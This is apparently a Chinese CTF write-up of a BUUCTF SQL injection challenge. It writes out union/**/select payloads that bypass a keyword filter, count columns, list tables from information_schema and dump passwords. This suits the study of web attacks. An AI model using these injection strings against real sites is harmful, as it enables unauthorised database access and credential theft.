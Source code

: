 考察知识点：

1.union/**/select sql注入



1. 过滤测试

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2F2A912D6205492A8BB43F6C8712D80Bclipboard.png)

虽然select被过滤但是union/**/select还可以使用



2.确定字段数

构造：

```javascript
?username=admin&password=admin'union/**/select+null,null,null#
```

当null的数量为四时，报错，所以查询数据库表有四个字段



3.确定回显点

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/6F8CD6FE04AA4D669B7F1B8D70A0217Fclipboard.png)

用户密码可用作回显点



4. 暴库

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4B44CC4AFE5044CF9D38CAD2F8F551DAclipboard.png)



5.爆表

```javascript
/check.php?username=admin&password=admin'union/**/select+null,null,group_concat(table_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database();%23
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/136122CFDB2F45E5A67310A0666431BDclipboard.png)



6. 爆字段内容

```javascript
?username=admin&password=admin'union/**/select+null,null,group_concat(password)/**/from/**/l0ve1ysq1;%23
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/8A268906AC3D448CBA8F49C088F32D90clipboard.png)

